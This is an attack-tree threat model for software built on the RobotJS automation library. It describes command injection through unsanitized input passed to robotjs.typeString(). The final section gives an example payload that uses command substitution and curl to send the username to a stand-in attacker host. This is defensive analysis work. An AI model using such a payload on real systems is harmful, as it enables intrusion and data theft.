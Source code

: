 # Attack Tree Analysis for octalmage/robotjs

Objective: Compromise Application via RobotJS

## Attack Tree Visualization

Attack Goal: **Compromise Application via RobotJS** (Critical Node - Root Goal)

    OR
    ├── **2. Abuse of RobotJS Functionality via Application Logic Flaws** (Critical Node - Application-Level Vulnerability Category)
    │   OR
    │   ├── **2.1. Command Injection via RobotJS** (Critical Node - High-Risk Attack Vector) --> **HIGH-RISK PATH**
    │   │   └── **2.1.1. Unsanitized Input Passed to RobotJS Keyboard/Mouse Functions** (Critical Node - Vulnerable Point) --> **HIGH-RISK PATH**
    │   │       └── **2.1.1.1. Injecting OS commands or malicious scripts through text input simulated by RobotJS** (Critical Node - High-Risk Attack Step) --> **HIGH-RISK PATH**


## Attack Tree Path: [Compromise Application via RobotJS (Root Goal)](./attack_tree_paths/compromise_application_via_robotjs__root_goal_.md)

*   **Description:** The ultimate objective of the attacker is to successfully compromise the application that utilizes RobotJS. This could involve gaining unauthorized access, control, data theft, or disruption of services.

## Attack Tree Path: [Abuse of RobotJS Functionality via Application Logic Flaws (Application-Level Vulnerability Category)](./attack_tree_paths/abuse_of_robotjs_functionality_via_application_logic_flaws__application-level_vulnerability_category_74aa7c28.md)

*   **Description:** This category focuses on exploiting vulnerabilities in the application's code that uses RobotJS, rather than vulnerabilities within RobotJS itself. Attackers leverage weaknesses in how the application handles user input, manages logic, or secures its functionalities to misuse RobotJS's capabilities.

## Attack Tree Path: [Command Injection via RobotJS (High-Risk Attack Vector)](./attack_tree_paths/command_injection_via_robotjs__high-risk_attack_vector_.md)

*   **Description:** This is a particularly dangerous attack vector where an attacker aims to inject operating system commands through the application's use of RobotJS keyboard or mouse input functions.
*   **Likelihood:** High
*   **Impact:** High (Full System Compromise, Data Breach, Denial of Service)
*   **Effort:** Low
*   **Skill Level:** Novice
*   **Detection Difficulty:** Medium (Hard if proper logging and input validation are absent)

## Attack Tree Path: [Unsanitized Input Passed to RobotJS Keyboard/Mouse Functions (Vulnerable Point)](./attack_tree_paths/unsanitized_input_passed_to_robotjs_keyboardmouse_functions__vulnerable_point_.md)

*   **Description:** This is the specific point of vulnerability within the Command Injection path. It occurs when the application takes user-provided input and directly passes it to RobotJS functions like `robotjs.typeString()` without proper sanitization or validation.
*   **Vulnerability:** Lack of input sanitization allows attackers to insert malicious commands within the input string.

## Attack Tree Path: [Injecting OS commands or malicious scripts through text input simulated by RobotJS (High-Risk Attack Step)](./attack_tree_paths/injecting_os_commands_or_malicious_scripts_through_text_input_simulated_by_robotjs__high-risk_attack_ad53ec75.md)

*   **Description:** This is the final step in the Command Injection attack. By injecting specially crafted input strings containing OS commands, the attacker leverages RobotJS to simulate typing these commands into the operating system.  Because RobotJS operates at the OS level, these simulated keystrokes are executed as if a user were typing them directly.
*   **Example Attack:** An attacker might input a string like `$(curl attacker.com/exfiltrate?data=$(whoami)) #` into an application field that uses `robotjs.typeString()`. This could execute a command to exfiltrate the username to an attacker-controlled server.

